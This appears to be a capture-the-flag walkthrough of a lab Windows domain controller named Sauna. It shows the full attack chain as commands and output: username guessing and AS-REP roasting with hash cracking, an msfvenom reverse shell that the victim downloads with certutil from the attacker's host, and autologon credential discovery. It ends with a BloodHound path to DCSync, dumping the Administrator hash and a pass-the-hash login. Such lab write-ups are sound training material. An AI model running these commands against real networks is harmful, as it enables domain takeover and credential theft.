




# sauna

Tags: #active-directory #windows #asrep-roast #stored-credentials #bloodhound #dcsync

## scan

### nmap

```sh
sudo rustscan -a 10.10.10.175 -- -T4 -sV -sC -oA tcp-all
```

```
Nmap scan report for suana (10.10.10.175)
Host is up, received echo-reply ttl 127 (0.060s latency).
Scanned at 2023-07-08 20:25:49 EDT for 97s

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-07-09 07:25:56Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 35558/tcp): CLEAN (Timeout)
|   Check 2 (port 48644/tcp): CLEAN (Timeout)
|   Check 3 (port 57297/udp): CLEAN (Timeout)
|   Check 4 (port 34402/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2023-07-09T07:26:49
|_  start_date: N/A
|_clock-skew: 6h59m59s
```

### web

Running `gobuster` to enumerate web directories:

```sh
# directory discovery
ulimit -n 8192 # prevent file access error during scanning
gobuster dir -w /mnt/share/cheat/wordlists/webbust.txt -ezqrkt 100 -o gobuster.txt -u http://sauna
http://sauna/images               (Status: 403) [Size: 1233]
http://sauna/fonts                (Status: 403) [Size: 1233]
http://sauna/css                  (Status: 403) [Size: 1233]
http://sauna/index.html           (Status: 200) [Size: 32797]
```

Running `whatweb` to check web technologies in use:

```sh
# enumerate version info of tech stack, find emails, domains, etc.
whatweb -v -a3 --log-verbose whatweb.txt sauna
Title     : Egotistical Bank :: Home
Summary   : Bootstrap[4.0.0], Email[example@email.com,info@example.com], HTML5, HTTPServer[Microsoft-IIS/10.0], Microsoft-IIS[10.0], Script
```

Running `nikto` to check for common vulnerabilities:

```sh
nikto -o nikto.txt --maxtime=300s -C all -h sauna
# nothing interesting
```

### smb

```sh
# get OS, hostname, and domain info, as well as signing (for relay attacks)
# also check null session
crackmapexec smb sauna -u '' -p ''
SMB         sauna           445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         sauna           445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\:
# null session works!

# list shares
smbmap -H 10.10.10.175 -u guest -p ''
# nothing?

# deeper scan (can add -u guest)
enum4linux -aMld sauna | tee enum4linux.txt
Domain Name: EGOTISTICALBANK
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766

# list users
crackmapexec smb sauna -u '' -p '' --users
# need login creds...
```

### ldap

```sh
# check AS-REP roastable users
impacket-GetNPUsers -request -outputfile asreproast.hash -dc-ip sauna 'egotistical-bank.local/:'
# no entries

# check Kerberoastable users
crackmapexec ldap sauna -u '' -p '' --kerberoasting kerberoast.hash
# no entries
```

## access

Browsing to the home page on port 80:



Checking links on the page, there are other pages not caught by gobuster:
- `single.html`
- `contact.html`
- `about.html`
- `blog.html`

Poking around each of the pages, didn't see much interesting. All forms result in 405 error (method not allowed). No emails, subdomains, etc. Nothing in the page comments or source.

Trying to check if reverse DNS lookup gives any more info:

```sh
❯ nslookup 10.10.10.175 10.10.10.175
# error, timeout
```

Going back to the page after taking a hint from the walkthrough, see that there is a "Meet the Team" section in the about page that lists people's names:


From that, make a list of usernames to try AS-REP roasting:

```sh
❯ cat usernames.txt
fergus.smith
fsmith
ferguss
fergus
shaun.colins
scolins
shaunc
shaun
hugo.bear
hbear
hugob
hugo
bowie.taylor
bowiet
btaylor
bowie
sophie.driver
sophied
sdriver
sophie
steven.kerb
skerb
stevenk
steven
```

Now try each username to see if it's AS-REP roastable:

```sh
❯ while read p; do impacket-GetNPUsers egotistical-bank.local/"$p" -request -no-pass -dc-ip 10.10.10.175 >> asreproast-brute.txt; done < usernames.txt
[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:25e43a181b39f07d3a97121a1f046306$71a26f686f7dbb0ba01c513033f9756a1c9c6876f0da7e0162b4074b98a347be5763816b3244325398f3d50c1e1984d4185fd9a8bc3f3c1047bdbaad45f34765ebbf50fa3371887ff9ac6ae191aa3e9b9005d1448b18dc750d61200b1ac8206c051296ab19886c1637ecc358ddd05f47aa358cc312895048e9e4d742d6a65bf56d29fac0ab532d7e2d3f4f43820566f43ece22e4bd4f7ba4f71a4a39458ecb7361be88aa3d1bb3e7eee5a9c883114cfedfa0662771566875767ca3a03f1f57b7a91b28228340600c1a28e199fcca3861dc7609c4a25f706bbf9c1a9de4b1b81872eb94d73b9073722bac421545ab5c4f9c986de090cef54b7d72d949a76903fb
# ---- snip ----
```

We get a hit! Now let's try to crack it.

```sh
❯ john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.hash
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```

We got #credentials!
- `fsmith:Thestrokes23`

Now let's try using it with `crackmapexec`.

```sh
# smb
❯ cme smb sauna -u fsmith -p Thestrokes23
# works, not admin

# winrm
❯ cme winrm sauna -u fsmith -p Thestrokes23
# works, user has WinRM access

# ldap
❯ cme ldap sauna -u fsmith -p Thestrokes23
# works

# user enumeration
❯ cme ldap sauna -u fsmith -p Thestrokes23 --users
SMB         sauna           445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
# ---- snip ----
LDAP        sauna           389    SAUNA            HSmith
LDAP        sauna           389    SAUNA            FSmith
LDAP        sauna           389    SAUNA            svc_loanmgr
```

Now let's see if we can kerberoast any users:

```sh
impacket-GetUserSPNs -request -outputfile kerberoast.hash -dc-ip sauna 'EGOTISTICAL-BANK.LOCAL/fsmith:Thestrokes23'
SAUNA/HSmith.EGOTISTICALBANK.LOCAL:60111  HSmith            2020-01-23 00:54:34.140321  <never>
[-] Principal: EGOTISTICAL-BANK.LOCAL\HSmith - Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Oh, dang. It looks like we should be able to, but the clock skew is too great. Before struggle-bussing through that, let's first look at WinRM, since we should be able to get a shell.

```sh
❯ evil-winrm -i sauna -u fsmith -p 'Thestrokes23'
# shell!
```

That gives us a shell!


## privesc

First, I'll upgrade to a better reverse shell:

```powershell
# on host, create reverse shell and host over http
msfvenom -p windows/shell_reverse_tcp -f exe -o rsh.exe lport=443 lhost=tun0
python3 -m http.server 80

# start listener
rlwrap nc -lvnp 443

# on victim, download and execute
*Evil-WinRM* PS C:\Users\FSmith\Documents> certutil -urlcache -split -f http://10.10.14.8/rsh.exe
*Evil-WinRM* PS C:\Users\FSmith\Documents> C:\Users\FSmith\Documents\rsh.exe
```

Now basic enumeration with winpeas:

```sh
certutil -urlcache -split -f http://10.10.14.8/winpeas.exe
.\winpeas.exe


    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

We found more #credentials!
- `EGOTISTICALBANK\svc_loanmanager:Moneymakestheworldgoround!`

Checking the creds with `crackmapexec`:

```sh
❯ cme smb sauna -d EGOTISTICALBANK -u 'svc_loanmanager' -p 'Moneymakestheworldgoround!'
# fails?
```

It failed for SMB, WinRM, and LDAP? Weird. Looking back at the user list from before, the usernames differ. Maybe if I use the other name?

```sh
❯ cme smb sauna -d EGOTISTICALBANK -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
# works! Not admin
```

Repeated the check for WinRM, and it works. Using that to logon:

```sh
❯ evil-winrm -i sauna -u svc_loanmgr -p 'Moneymakestheworldgoround!'
# works

# upgrade shell
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> certutil -urlcache -split -f http://10.10.14.8/rsh.exe
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> C:\Users\svc_loanmgr\Documents\rsh.exe
```

Running winpeas again didn't yield any new results. Going to try circling back to that Kerberoast opportunity we found earlier. Now that I'm on the box locally, I should be able to do it with Rubeus without having to worry about clock skew.

```powershell
# download rubeus from kali
certutil -urlcache -split -f http://10.10.14.8/Rubeus.exe

# execute kerberoast attack
.\Rubeus.exe kerberoast
[*] Total kerberoastable users : 1

[*] SamAccountName         : HSmith
[*] DistinguishedName      : CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
[*] ServicePrincipalName   : SAUNA/HSmith.EGOTISTICALBANK.LOCAL:60111
[*] PwdLastSet             : 1/22/2020 9:54:34 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

 [X] Error during request for SPN SAUNA/HSmith.EGOTISTICALBANK.LOCAL:60111@EGOTISTICAL-BANK.LOCAL : No credentials are available in the security package
```

Dang. Time to try something else... Let's explore with Bloodhound.

```powershell
certutil -urlcache -split -f http://10.10.14.8/SharpHound.ps1
powershell -ep bypass
. .\sharphound.ps1
Invoke-BloodHound -CollectionMethod All
```

I want to push the files using SMB because that's easier, but I keep getting this error:

```sh
net use \\10.10.14.8 /user:derp herpderp
System error 1312 has occurred.

A specified logon session does not exist. It may already have been terminated.
```

I googled it and someone on StackOverflow recommended adding an arbitrary domain, even if the user isn't part of a domain.

```powershell
net use \\10.10.14.8 /user:duh\derp herpderp
```

And that actually worked! Now I can copy the bloodhound zip file over with SMB:

```powershell
copy 20230709021153_BloodHound.zip \\10.10.14.8\share
```

Loading that into Bloodhound, I mark the two users I have access to as "Owned". Then I run a query "Shortest Path to Domain Admins From Owned Principals" and it turns up this little gem:



Well that makes it easy! Just DCSync with the creds I have!

```sh
❯ impacket-secretsdump -just-dc -outputfile dcsync 'egotisticalbank\svc_loanmgr:Moneymakestheworldgoround!@sauna'
# fails?

# try again, but with crackmapexec
❯ cme smb sauna -d EGOTISTICALBANK -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' --ntds
SMB         sauna           445    SAUNA            Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
# ---- snip ----
```

Now we can get SYSTEM with psexec!

```sh
❯ impacket-psexec -hashes ':823452073d75b9d1cf70ebdf86c7f98e' 'Administrator@sauna'
```

Done!

Derp, I realized I forgot the dash in domain of the `secretsdump` command. This works:

```sh
❯ impacket-secretsdump 'egotistical-bank/svc_loanmgr:Moneymakestheworldgoround!@sauna' -just-dc-user Administrator
```

Kinda crazy that `crackmapexec` worked without the dash.


## proof

### user.txt

```powershell
ipconfig
type C:\Users\fsmith\Desktop\user.txt
```

Screenshot of `user.txt`



### root.txt

```powershell
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

Screenshot of `root.txt`:


